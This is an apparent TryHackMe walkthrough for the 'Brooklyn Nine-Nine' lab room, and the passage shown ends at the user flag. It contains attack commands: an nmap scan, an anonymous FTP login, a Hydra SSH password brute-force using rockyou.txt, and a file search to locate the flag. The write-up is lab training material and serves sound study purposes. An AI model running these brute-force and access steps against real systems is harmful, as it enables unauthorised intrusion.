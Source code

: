 ## 🧠 Brooklyn99 - TryHackMe Walkthrough

📅 **Date**: July 26, 2020

🔗 **Room Link**: [Brooklyn Nine-Nine - TryHackMe](https://tryhackme.com/room/brooklynninenine)

🎯 **Goal**: Gain user and root access; capture the flags.

---

### 🔍 Step 1: Initial Nmap Scan

Scan the target to see open ports and services:

```bash
bash

nmap <ip>

```

Example:

```bash
bash

nmap 10.10.10.123

```

### 📄 Observations:

- **Open Ports**: 21 (FTP), 22 (SSH), 80 (HTTP)
- **FTP**: Anonymous login enabled
- **FTP File**: `note_to_jake.txt`
- **Possible Usernames**: `jake`, `amy`, possibly `holt`

---

### 📁 Step 2: Anonymous FTP Login

Connect to the FTP server:

```bash
bash

ftp <ip>

```

Login details:

- **Username**: `anonymous`
- **Password**: *(just press Enter)*

Then:

```bash
bash

ls
get note_to_jake.txt

```

---

### 🔐 Step 3: Brute-Force Jake's SSH Password

Use Hydra with simple syntax:

```bash
bash

hydra -l jake -P <wordlist> ssh://<ip>

```

Example:

```bash
bash

hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.123

```

---

### 🧑‍💻 Step 4: SSH Access

Login using the credentials found from Hydra:

```bash
bash

ssh jake@<ip>

```

Example:

```bash
bash

ssh jake@10.10.150.247

```

---

### 🏁 Step 5: Find and Read User Flag

Search for the user flag:

```bash
bash

find / -name user.txt 2>/dev/null

```

Found:

```
arduino

/home/holt/user.txt

```

Read the flag:

```bash
bash

cat /home/holt/user.txt

```

✅ **Submit the flag**
